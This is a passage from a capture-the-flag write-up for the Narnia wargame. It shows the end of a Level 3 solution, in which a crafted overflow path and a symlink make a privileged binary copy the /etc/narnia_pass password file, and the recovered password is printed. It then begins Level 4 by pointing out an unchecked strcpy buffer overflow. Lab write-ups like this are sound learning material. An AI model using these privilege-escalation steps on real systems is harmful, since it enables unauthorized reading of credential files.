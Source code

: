 This is the file `ofile` will open after the overflow.

**Now let's create the `ifile` path**
```ruby
narnia3@gibson:/narnia$ mkdir /tmp/sol3/passAAAAAAAAAAAa0Aa1AA/tmp/sol3
narnia3@gibson:/narnia$ ln -s /etc/narnia_pass/narnia4  /tmp/sol3/passAAAAAAAAAAAa0Aa1AA/tmp/sol3/pass
```
Here we created a symbolic link between the password file a `/etc/narnia_pass/ `and the file in the tmp folder.


Let's run the program with the correct string!

```ruby
narnia3@gibson:/narnia$ ./narnia3 /tmp/sol3/passAAAAAAAAAAAa0Aa1AA/tmp/sol3/pass
copied contents of /tmp/sol3/passAAAAAAAAAAAa0Aa1AA/tmp/sol3/pass to a safer place... (/tmp/sol3/pass)
narnia3@gibson:/narnia$ cat /tmp/sol3/pass
aKNxxrpDc1
```

Success!

## Level 4

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>
  
extern char **environ;
  
int main(int argc,char **argv){
    int i;
    char buffer[256];
  
    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));
  
    if(argc>1)
        strcpy(buffer,argv[1]);
  
    return 0;
}
```

Looking at the code we can see that the program defines a buffer variable with length of 256 bytes. Then, the program set's all environment variables to Null. Seems like the program doesn't want any env vars affecting it's run.

Next, the program check whether the user has entered an argument to the program, and copies it's value using `strcpy()` to the buffer variable, without checking for the length of the input. This means we could implement a buffer overflow attack!
